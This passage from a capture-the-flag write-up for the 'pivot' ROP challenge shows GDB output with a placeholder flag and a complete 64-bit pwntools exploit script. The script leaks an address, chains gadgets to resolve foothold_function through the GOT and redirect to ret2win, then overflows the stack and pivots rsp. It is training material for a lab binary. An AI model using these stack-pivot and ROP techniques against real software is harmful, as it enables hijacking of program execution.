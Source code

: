 
Unfortunately, ```pwntools``` somehow loses its input when the flag is printed out, but ```GDB``` proves us it works:
```
gef➤
ROPE{a_placeholder_32byte_flag!}
[Inferior 1 (process 17774) exited normally]
```


## 64-bit ##
The methodology is exactly the same, but the addresses differ slightly and the ```ebx``` gadgets have been switched for ```rbp``` gadgets instead. Even the ROP gadgets used were exactly the same, it's just that they used the 64-bit registers instead.
Thus, I will simply write out the solution script with the relevant comments added.

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"
context.os = "linux"

# Useful ROP gadgets
foothold_plt  = p64(0x400720) # foothold_function@plt
foothold_reloc = p64(0x601040) # .got.plt location (points to actual address of foothold_function)
dereference_rax = p64(0x4009c0) # : mov rax, dword ptr [rax] ; ret
add_rax_rbp = p64(0x4009c4) # : add rax, rbp ; ret
call_rax = p64(0x4006b0) # : call rax
pop_rax = p64(0x4009bb) # : pop rax ; ret
xchg_rsp_rax = p64(0x4009bd) # : xchg rsp, rax ; ret
pop_rbp = p64(0x4007c8) # pop rbp; ret
offset_to_ret2win = p64(279)

e = ELF("./pivot")

io = e.process()

first_output = io.recvuntil(">")
disclosed_address = int([x for x in first_output.split() if x.startswith(b'0x')][0], 16)

# ROP Chain
first_input = foothold_plt
first_input += pop_rax
first_input += foothold_reloc
first_input += dereference_rax
first_input += pop_rbp
first_input += offset_to_ret2win
first_input += add_rax_rbp
first_input += call_rax
first_input += b'A' * (0x100 - len(first_input))

io.sendline(first_input)

# Stack Smashing
second_input = b'A' * 40
second_input += pop_rax
second_input += p64(disclosed_address)
second_input += xchg_rsp_rax

io.sendline(second_input)

```